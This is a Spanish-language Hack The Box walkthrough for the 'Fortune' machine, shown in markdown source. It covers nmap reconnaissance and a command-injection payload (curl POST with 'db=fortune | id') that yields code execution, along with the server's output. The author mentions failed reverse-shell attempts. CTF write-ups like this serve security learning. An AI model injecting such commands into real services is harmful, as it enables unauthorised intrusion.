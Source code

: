 ```yaml
---
layout: post
title: Fortune
date: 2022-11-15
categories: ["HTB", "Certificates", "NFS"]
thumbnail: "assets/images/Fortune.png"
---
```


# Fortune [ Hack The Box ]

## Reconocimiento

**Descubrimiento de puertos y reconocimiento básico**
- `nmap -sS --min-rate 5000 10.10.10.127 -oG allPorts`
- `nmap -sCV -p22,80,443, 10.10.10.127 -oN targeted`

No vemos nada interesante, sigamos investigando.

## Inspección

Al entrar en la web nos encontramos con cinco botones, cada uno con un nombre
diferente, el cual si seleccionamos nos dará una frase, receta, etcétera. Mirando las
peticiones me fijé que se usa un parámetro llamado db, así que pensé en `SQLI` pero
lo descarté tras unas pruebas, aunque podemos tener `RCE` con concatenar un comando
con `|`, `+` o `;`.

- `curl -s -X POST http://10.10.10.127/select -d "db=fortune | id"`

```
<!DOCTYPE html>
<html>
<head>
<title>Your fortune</title>
<meta name='viewport' content='width=device-width, initial-scale=1'>
<meta http-equiv="X-UA-Compatible" content="IE=edge">
</head>
<body>
<h2>Your fortune is:</h2>
<p>
<pre>

uid=512(_fortune) gid=512(_fortune) groups=512(_fortune)

</pre>
<p>
<p>Try <a href='/'>again</a>!</p>
</body>
</html>
```
Como vemos tenemos ejecución remota de comandos. Traté de entablar una Reverse Shell
de muchas maneras, jugando con Base64, clásicas e incluso intentando descargarme
archivos de mi máquina, pero ningún método funcionó.
